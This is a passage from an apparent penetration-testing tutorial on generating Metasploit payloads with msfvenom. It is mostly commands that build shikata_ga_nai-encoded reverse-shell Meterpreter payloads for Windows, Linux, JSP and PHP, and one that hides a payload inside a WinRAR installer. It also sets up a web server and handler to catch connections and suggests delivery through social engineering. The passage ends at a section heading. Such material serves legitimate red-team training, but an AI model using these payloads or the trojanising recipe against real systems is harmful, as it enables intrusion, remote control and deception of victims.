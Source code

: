 ```shell
# Use more encoding iterations
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f exe > <PAYLOAD_ENCODED_x86>.exe

# Linux 32bit + shikata_ga_nai encoded
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -i 10 -e x86/shikata_ga_nai -f elf > <PAYLOAD_ENCODED_x86>

# Inject into Portable Executables
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -e x86/shikata_ga_nai -i 10 -f exe -x winrar-x32-621.exe > winrar.exe

# JSP Java Meterpreter Reverse TCP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp #TomCat content management system 

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\  #PHP Web Application
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

We can now transfer this over to the target system, or you can essentially set this up in a social engineering campaign.
Before they execute it you need to set up a handler.

In terms of transferring the payloads on the target, this depend on the type of social engineering technique that you will utilize. For example we are going to set up a simple web server within this folder to serve two payload files. 

```shell
sudo python -m SimpleHTTPServer 80
# No we also need to set the handler to receive the connection back from the target system.
# MSF STAGED Payload
windows/x64/meterpreter/reverse_tcp

# MSF NON-STAGED Payload
windows/x64/meterpreter_reverse_https

# Upload the payload on the target and try it with MSFconsole
cd Payloads
sudo python -m http.server 8080
msfconsole -q

use multi/handler
set payload <MSFVENOM_PAYLOAD>
set LHOST <MSFVENOM_LOCAL_HOST_IP>
set LPORT <MSFVENOM_LOCAL_PORT>
run
```

### 4.2. Encoding Payloads with Msfvenom
